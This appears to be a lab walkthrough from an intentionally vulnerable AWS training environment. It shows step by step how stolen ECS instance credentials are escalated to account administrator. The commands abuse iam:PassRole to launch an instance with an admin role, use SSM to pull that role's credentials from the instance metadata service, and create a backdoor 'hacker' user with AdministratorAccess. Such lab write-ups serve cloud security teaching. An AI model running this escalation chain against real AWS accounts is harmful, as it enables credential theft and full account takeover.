 # Objective

Escalate Privileges to become an administrator on the AWS Account.

# Solution

* We have already obtained the ECS host instance's IAM Credentials in the previous manual.

* Now let's try to create a user using those credentials.

## Creating a User

* Let's check the policies attached to our assumed **ecs-instance-role**

```console
aws iam list-attached-role-policies --role-name ecs-instance-role
```

![](./images/04/01.png)

* As we can see, this role has **IAMFullAccess**. So we should be able to create a user and grant him administrator access. Let's try to create a user named **hacker**.

```console
aws iam create-user --user-name hacker
```

![](./images/04/02.png)

* Error! we have been denied permission even though we have the **IAMFullAccess** policy. Let's get the role details

```console
aws iam get-role --role-name ecs-instance-role
```

![](./images/04/03.png)

* There is a permissions boundary associated with the role, we can try to view it.

```console
aws iam get-policy --policy-arn arn:aws:iam::676162304320:policy/aws-goat-instance-boundary-policy
```

![](./images/04/04.png)

```console
aws iam get-policy-version --policy-arn arn:aws:iam::676162304320:policy/aws-goat-instance-boundary-policy --version-id v1
```

![](./images/04/05.png)

* Here, we can observe that we have IAM List and Get access along with **iam:PassRole**, **ssm**, **ec2:RunInstance**.

* From all the information we have, we can try to run a new instance and pass a role that has our desired permissions and create a new user using the creds obtained from the new instance.

## Finding a role with desired permissions

* First, we need to list roles to check for our desired permissions.

```console
aws iam list-roles
```

![](./images/04/06.png)

* We can observe that there is an **ec2Deployer-role**. Let's get the policies attached to it.
    
```console
aws iam list-attached-role-policies --role-name ec2Deployer-role
```

![](./images/04/07.png)

* Now, let's get the policy's version.

```console
aws iam get-policy-version --policy-arn arn:aws:iam::676162304320:policy/ec2DeployerAdmin-policy --version-id v1
```

![](./images/04/08.png)

* Voila! we have a policy that allows us to perform all actions on all resources, now we need an instance profile with the **ec2Deployer-role** role attached to it!

* List the instance profiles

```console
aws iam list-instance-profiles
```

![](./images/04/09.png)

* Make note of the ```InstanceProfileName``` (ec2Deployer) associated with our desired ```RoleName``` (ec2Deployer-role)

* Now, let's try to pass this role to a new instance.

## Running new instance

* For running a new instance we need an **AMI, a security group, a subnet, and an instance profile**.

* First, let's find an Amazon Linux 2 AMI. The below command lists the latest AMI.

```console
aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available'  --query 'reverse(sort_by(Images,&CreationDate))[:1].{id:ImageId,date:CreationDate}'
```

![](./images/04/10.png)

* Make note of the AMI ID, here we get ```ami-01a73f51321ab6899``` as our Amazon Linux 2 AMI.

* Now, let's check for the available subnets

```console
aws ec2 describe-subnets
```

![](./images/04/11.png)

* Let's take ```subnet-04b5603ee98706543``` as the subnet id

* Now, check for security groups

```console
$ aws ec2 describe-security-groups
```

![](./images/04/12.png)

* Let's take ```sg-001cef4a9d95ebde0``` as the sg id.

* You'll have to make sure both the security group and the subnet are a part of the same VPC, thus having the same ```VpcId``` in their listings.

* We have everything now to run a new instance. Let's run a new instance and pass the ```ec2Deployer-role``` to it.

```console
aws ec2 run-instances --subnet-id subnet-04b5603ee98706543 --image-id ami-01a73f51321ab6899 --iam-instance-profile Name=ec2Deployer --instance-type t2.micro --security-group-ids "sg-001cef4a9d95ebde0"
```

![](./images/04/13.png)

* Voila! we have created a new instance! make note of the ```InstanceID```. In our case, it is ```i-05815ea234a226115```

* Now, Let's create a user by obtaining credentials of the passed role with the help of ```ssm```

## Obtaining Credentials

* Run the below command to obtain temporary access credentials for ```ec2Deployer-role```

```console
aws ssm send-command --document-name "AWS-RunShellScript" --parameters 'commands=["curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2Deployer-role/"]' --targets "Key=instanceids,Values=i-05815ea234a226115" --comment "aws cli 1"
```

![](./images/04/14.png)

* Make note of the ```CommandId``` to check the commands execution result.

* Now let's get the creds from the result.
    
```console
aws ssm get-command-invocation --command-id "3c827d63-7a7a-4eeb-bf5f-337cc42b3479" --instance-id "i-05815ea234a226115"
```

![](./images/04/15.png)

* We now have the credentials of ```ec2Deployer-role```. Let's export them and create a user.

## Creating the user

* First, export the credentials and with these credentials, we can use the role passed to our newly launched instance.

```console
export AWS_ACCESS_KEY_ID=<value>
export AWS_SECRET_ACCESS_KEY=<value>
export AWS_SESSION_TOKEN=<value>
aws sts get-caller-identity
```

![](./images/04/16.png)

* Now, let's try to create a user.

```console
aws iam create-user --user-name hacker
```

![](./images/04/17.png)

* We'll now attach AdministratorAccess Policy, and create a login profile for our hacker user.

```console
aws iam attach-user-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --user-name hacker
aws iam create-login-profile --user-name hacker --password hackerPassword@123
aws iam create-access-key --user-name hacker
```

![](./images/04/18.png)

* We have successfully created a user with **AdministratorAccess** on the **AWS Account!**

# What's Happening?

* After finding out the resources and actions we have access to, we were able to run an instance and utilize **ec2:passRole** to pass a role that has the desired permissions.

* With the help of **ssm**, we executed a command on the new instance to obtain the temporary access credentials of the role we passed it.

* Since that role has our desired permissions, we were able to use its credentials to create a new user on the **AWS Account** with Administrator Access and elevate our privileges.